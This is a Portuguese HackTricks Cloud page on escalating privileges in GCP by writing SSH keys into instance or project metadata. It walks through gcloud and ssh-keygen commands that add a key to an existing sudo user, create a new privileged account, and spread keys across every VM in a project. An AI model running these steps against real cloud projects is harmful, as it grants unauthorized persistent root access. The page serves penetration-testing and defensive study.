 # GCP - Adicionar Metadados SSH Personalizados

## GCP - Adicionar Metadados SSH Personalizados

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

A modificação de metadados em uma instância pode levar a **riscos de segurança significativos se um atacante obtiver as permissões necessárias**.

#### **Incorporação de Chaves SSH em Metadados Personalizados**

No GCP, **sistemas Linux** frequentemente executam scripts do [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um componente crítico disso é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que é projetado para **verificar regularmente** o endpoint de metadados da instância em busca de **atualizações nas chaves públicas SSH autorizadas**.

Portanto, se um atacante puder modificar os metadados personalizados, ele poderá fazer com que o daemon encontre uma nova chave pública, que será processada e **integrada ao sistema local**. A chave será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou potencialmente criando um novo usuário com privilégios `sudo`**, dependendo do formato da chave. E o atacante poderá comprometer o host.

#### **Adicionar chave SSH a um usuário privilegiado existente**

1. **Examinar Chaves SSH Existentes na Instância:**
*   Execute o comando para descrever a instância e seus metadados para localizar chaves SSH existentes. A seção relevante na saída estará sob `metadata`, especificamente a chave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Preste atenção ao formato das chaves SSH: o nome de usuário precede a chave, separado por dois pontos.
2. **Preparar um Arquivo de Texto para Metadados da Chave SSH:**
* Salve os detalhes dos nomes de usuários e suas respectivas chaves SSH em um arquivo de texto chamado `meta.txt`. Isso é essencial para preservar as chaves existentes enquanto adiciona novas.
3. **Gerar uma Nova Chave SSH para o Usuário Alvo (`alice` neste exemplo):**
*   Use o comando `ssh-keygen` para gerar uma nova chave SSH, garantindo que o campo de comentário (`-C`) corresponda ao nome de usuário alvo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Adicione a nova chave pública ao `meta.txt`, imitando o formato encontrado nos metadados da instância.
4. **Atualizar os Metadados da Chave SSH da Instância:**
*   Aplique os metadados atualizados da chave SSH à instância usando o comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Acessar a Instância Usando a Nova Chave SSH:**
*   Conecte-se à instância com SSH usando a nova chave, acessando o shell no contexto do usuário alvo (`alice` neste exemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Se nenhum usuário interessante for encontrado, é possível criar um novo que receberá privilégios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Chaves SSH em nível de projeto <a href="#sshing-around" id="sshing-around"></a>

É possível ampliar o alcance do acesso SSH a várias Máquinas Virtuais (VMs) em um ambiente de nuvem **aplicando chaves SSH em nível de projeto**. Essa abordagem permite o acesso SSH a qualquer instância dentro do projeto que não tenha bloqueado explicitamente as chaves SSH em nível de projeto. Aqui está um guia resumido:

1. **Aplicar Chaves SSH em Nível de Projeto:**
*   Use o comando `gcloud compute project-info add-metadata` para adicionar chaves SSH do `meta.txt` aos metadados do projeto. Essa ação garante que as chaves SSH sejam reconhecidas em todas as VMs do projeto, a menos que uma VM tenha a opção "Bloquear chaves SSH em nível de projeto" habilitada.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH em Instâncias Usando Chaves em Nível de Projeto:**
* Com as chaves SSH em nível de projeto em vigor, você pode SSH em qualquer instância dentro do projeto. Instâncias que não bloqueiam chaves em nível de projeto aceitarão a chave SSH, concedendo acesso.
* Um método direto para SSH em uma instância é usar o comando `gcloud compute ssh [INSTANCE]`. Este comando usa seu nome de usuário atual e as chaves SSH definidas em nível de projeto para tentar acesso.

## Referências

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
